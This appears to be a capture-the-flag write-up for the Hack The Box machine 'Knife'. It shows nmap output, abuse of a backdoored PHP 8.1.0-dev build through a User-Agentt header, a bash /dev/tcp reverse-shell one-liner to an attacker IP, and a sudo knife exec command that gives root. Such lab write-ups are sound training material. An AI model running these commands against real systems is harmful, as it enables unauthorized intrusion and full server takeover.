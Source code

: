 # Knife

## Information Gathering
10.10.10.242<br>
Knife<br>

Software Versions
- OpenSSH 8.2p1
- Apache httpd 2.4.41
- PHP/8.1.0-dev

## Enumeration
Of course start with the nmap scan:
```bash
# Nmap 7.92 scan initiated Tue Mar  1 14:54:00 2022 as: nmap -sC -sV -oN nmap/knife.nmap 10.10.10.242
Nmap scan report for 10.10.10.242
Host is up (0.028s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar  1 15:09:15 2022 -- 1 IP address (1 host up) scanned in 914.27 seconds

```

## Exploitation
Navigating to the HTTP server we get a very static page with very little user interaction. Checking the response headers shows that this website is powered by PHP 8.1.0-dev. Doing a bit of research brings up this exploit-db: https://www.exploit-db.com/exploits/49933. By using the User-Agentt request header, we can send arbitrary code. You can also use this PoC script to get code execution and then escalate to an interactive shell. By using:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.122/1337 0>&1'
```
While having a reverse shell listening catches us a shell.


## Privilege Escalation
Checking what we are able to run as root yields:
```bash
sudo -l

Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
Doing a bit of searching on GTFObins gives us a privilege escalation techique:
```bash
sudo knife exec -E 'exec "/bin/sh"'
```
Gives a root shell